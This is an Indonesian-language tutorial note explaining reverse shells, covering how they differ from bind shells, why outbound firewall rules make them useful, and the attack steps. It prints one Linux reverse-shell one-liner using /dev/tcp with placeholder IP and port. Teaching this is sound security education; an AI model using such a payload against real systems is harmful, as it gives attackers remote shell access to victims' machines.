





# Reverse Shell - Medapatkan Akses Shell dari Target
- Reverse shell = kondisi di mana target yang kita serang malah connect ke mesin kita.

## 📌 Kenapa “reverse”?
- Bind shell → kita connect ke target
- Reverse shell → target connect ke kita



Biasanya dipakai karena:
- Firewall target blok inbound
- Tapi outbound (ke attacker) boleh

## 📌 Bagaimana cara kerjanya
1. Attacker siapkan listener (misal di port 4444)
2. Target dijadikan korban (misal dengan exploit)
3. Target menjalankan payload yang menghubungkan ke attacker di port 4444
4. Attacker dapat akses shell target

## 📌 Contoh payload reverse shell di Linux
```bash
sh -i >& /dev/tcp/<ip_address>/<port> 0>&1
```






---

## post

